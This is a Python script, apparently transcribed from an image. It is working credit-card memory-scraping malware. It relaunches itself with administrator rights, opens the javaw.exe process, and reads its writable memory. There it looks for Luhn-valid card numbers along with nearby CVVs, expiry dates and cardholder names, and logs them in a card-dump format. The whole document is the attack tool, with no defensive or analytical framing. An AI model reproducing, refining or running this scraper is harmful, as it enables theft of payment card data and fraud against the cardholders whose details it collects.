 import ctypes
import psutil
import re
import threading
from queue import Queue
import sys

# Constants for process access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Queue for memory regions to scan (for threading)
memory_queue = Queue()

# Luhn's algorithm to validate credit card numbers
def validate_luhn(card_number):
    total = 0
    reverse_digits = card_number[::-1]
    for i, digit in enumerate(reverse_digits):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            if n > 9:
                n -= 9
        total += n
    return total % 10 == 0

# Expanded regex patterns
cc_regex = re.compile(r'(\b(?:\d[ -]*?){13,19}\b)')  # Credit card number
cvv_regex = re.compile(r'\b\d{3,4}\b')  # CVV code (3 or 4 digits)
expiry_regex = re.compile(r'\b(0[1-9]|1[0-2])/(?:[0-9]{2}|[0-9]{4})\b')  # Expiry date MM/YY or MM/YYYY
name_regex = re.compile(r'\b[A-Z][a-z]+ [A-Z][a-z]+\b')  # Simple name pattern (First Last)

# Log file
log_file = "log.txt"

# Scan a buffer for potential credit card data
def scan_memory_chunk(memory_chunk):
    results = []

    card_matches = cc_regex.findall(memory_chunk)
    for card_match in card_matches:
        sanitized_card = re.sub(r'[^\d]', '', card_match)  # Remove non-numeric characters

        if validate_luhn(sanitized_card):
            # Try to find associated CVV, expiry date, and name near the card
            match_index = memory_chunk.find(card_match)
            surrounding_text = memory_chunk[max(0, match_index - 200): match_index + 400]  # Extended search range

            # Find possible CVV, expiry date, and name nearby
            cvv_match = cvv_regex.findall(surrounding_text)
            expiry_match = expiry_regex.findall(surrounding_text)
            name_matches = name_regex.findall(surrounding_text)

            # Use the first matches found
            cvv = cvv_match[0] if cvv_match else 'Not Found'
            expiry = expiry_match[0] if expiry_match else 'Not Found'
            name = name_matches[0] if name_matches else 'Not Found'

            card_info = {
                'Card Number': sanitized_card,
                'CVV': cvv,
                'Expiry Date': expiry,
                'Name': name
            }
            results.append(card_info)

    return results

# Worker thread that processes memory chunks
def memory_scan_worker(process_handle):
    while not memory_queue.empty():
        base_addr, size = memory_queue.get()
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        # Format the output as requested
                        formatted_output = f"{card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        
                        # Log to file
                        with open(log_file, 'a') as f:
                            f.write(formatted_output + '\n')
        except Exception as e:
            print(f"Error reading memory at {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Define the MEMORY_BASIC_INFORMATION structure
class MEMORY_BASIC_INFORMATION(ctypes.Structure):
    _fields_ = [
        ("BaseAddress", ctypes.c_void_p),
        ("AllocationBase", ctypes.c_void_p),
        ("AllocationProtect", ctypes.c_ulong),
        ("RegionSize", ctypes.c_size_t),
        ("State", ctypes.c_ulong),
        ("Protect", ctypes.c_ulong),
        ("Type", ctypes.c_ulong)
    ]

# Get memory regions to scan (only committed, readable regions)
def get_memory_regions(pid):
    process = psutil.Process(pid)
    with process.oneshot():
        handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not handle:
            raise Exception(f"Failed to open process {pid}")

        memory_regions = []
        address = 0
        mbi = MEMORY_BASIC_INFORMATION()

        while ctypes.windll.kernel32.VirtualQueryEx(handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
            if mbi.State == 0x1000 and mbi.Protect == 0x04:  # MEM_COMMIT and PAGE_READWRITE
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
            address += mbi.RegionSize

        ctypes.windll.kernel32.CloseHandle(handle)
        return memory_regions

# Main function to scan memory of target process
def scan_process_memory(pid, num_threads=4):
    memory_regions = get_memory_regions(pid)
    if not memory_regions:
        print(f"No valid memory regions found for PID {pid}")
        return

    for region in memory_regions:
        memory_queue.put(region)

    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)

    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=memory_scan_worker, args=(process_handle,))
        t.start()
        threads.append(t)

    memory_queue.join()

    for t in threads:
        t.join()
    ctypes.windll.kernel32.CloseHandle(process_handle)

def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if __name__ == "__main__":
    if not is_admin():
        print("Attempting to restart with admin privileges...")
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
        sys.exit(0)

    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'] == 'javaw.exe':
            target_pid = proc.info['pid']
            print(f"Found javaw.exe with PID {target_pid}")
            scan_process_memory(target_pid)
            break
    else:
        print("javaw.exe not found!")
